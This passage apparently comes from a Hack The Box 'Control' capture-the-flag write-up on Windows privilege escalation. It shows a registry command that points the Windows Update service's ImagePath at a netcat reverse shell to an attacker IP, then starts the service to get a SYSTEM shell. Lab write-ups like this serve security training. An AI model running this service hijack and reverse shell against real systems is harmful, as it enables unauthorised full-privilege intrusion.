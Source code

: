 ![image.png](/assets/Images/HTB_Control/image%2024.png)

Next, we looked for a suitable service to abuse and chose **`wuauserv` (Windows Update Service)** because:

- It runs with **SYSTEM privileges**.
- It is a **commonly present service** on Windows, so it’s reliable.
- It can be started manually without crashing the system.

We replaced its **`ImagePath`** in the registry with our payload:

```bash
reg add "HKLM\SYSTEM\CurrentControlset\Services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Tools\nc.exe 10.10.14.216 2004 -e cmd" /f

The operation completed successfully.
```

This told Windows to execute our reverse shell instead of the normal service binary. Finally, we started the service:

```bash
Start-Service wuauserv
```

Got a Reverse Shell as `SYSTEM`
